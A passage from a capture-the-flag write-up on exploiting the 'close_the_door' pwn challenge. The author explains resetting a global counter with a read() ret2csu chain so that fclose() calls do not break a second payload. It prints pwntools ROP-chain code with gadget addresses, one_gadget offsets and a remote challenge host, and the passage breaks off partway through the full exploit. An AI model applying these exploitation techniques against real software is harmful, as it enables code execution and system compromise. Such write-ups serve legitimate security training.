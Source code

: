 At this point, I wrote the code to get the libc base, found onegadgets, and thought I was good to go. However, my second payload did not seem to be going through properly. At this point, I remembered that a portion of the hidden_func involved a call to fclose(), and in light of the challenge name, I re-reviewed it:

```
  if (check != 0) {
    fclose(stdout);
    fclose(stderr);
  }
  check = check + 1;
  return;
```
check is a global variable; since it is getting iterated up by 1 every time hidden_func is called, it will only be equal to 0 the first time through, which presents a problem since calling the fclose() is, I believe, flushing my input and payload. Ultimately, the solution seems to be to create another portion of ropchain in the first payload that will write the value of global variable check back to 0. The only viable candidate for a write-what-where gadget was the read() function, which effectively works like write() in reverse. I ended up writing another ret2csu for the read function; in hindsight, the value of rdx was still 8 after the write() function finished, so I could have just popped values into rdi and rsi with more straightforward gadgets, but this is what I did:

```
#New Gadgets:
check = p64(0x00602050)
read_plt = p64(0x004006a0)

#The read ropchain

payload += csu_pops
payload += p64(0) #rbx
payload += p64(1) # rbp
payload += init #r12 gets called
payload += p64(0) #r13 goes to edi
payload += check #r14, goes to rsi
payload += p64(0x8) # r15, goes to rdx

payload += csu_movs
payload += b'a' * 8 #for the rsp+8
payload += b'a' * 8 * 6 #for the pops
payload += read_plt

```

And that seems to have worked! My full exploit is copy-pasted below; I did have some input/output issues that I fiddled with things to make work, and I ended up calling read twice on my first ropchain and adding a timeout, which seems to have fixed it.

```
from pwn import *

#target = process('./close_the_door', env={"LD_PRELOAD":"./libc.so.6"})
target = remote('188.166.173.176', 31223)

#pid = gdb.attach(target, "\nb *hidden_func+164\n set disassembly-flavor intel\ncontinue")



elf = ELF("close_the_door")
libc = ELF("libc.so.6")
#Gadgets:

#onegadget_offset = 0x4f3d5
onegadget_offset = 0x4f432
pop_rdi = p64(0x0000000000400b53) # : pop rdi ; ret
write_plt = p64(0x00400660)
```